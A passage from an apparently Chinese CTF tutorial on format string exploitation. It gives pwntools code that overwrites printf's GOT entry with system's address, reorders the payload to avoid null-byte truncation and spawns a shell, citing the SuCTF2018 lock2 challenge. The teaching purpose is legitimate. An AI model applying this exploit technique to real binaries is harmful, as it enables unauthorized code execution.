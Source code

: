 ```python
## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

这里需要注意的是这一段代码

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```

fmtstr\_payload 直接得到的 payload 会将地址放在前面，而这个会导致 printf 的时候 '\x00' 截断（**关于这一问题，pwntools目前正在开发 fmt\_payload 的加强版，估计快开发出来了。**）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面 8 字节对齐的地方，并对 payload 中的偏移进行修改。需要注意的是

```python
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
```

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于 '%order$hn' 中 order 多出来的字符都不会大于 8。具体的可以自行推导。

### 题目
- SuCTF2018 - lock2 （主办方提供了 docker 镜像: suctf/2018-pwn-lock2）

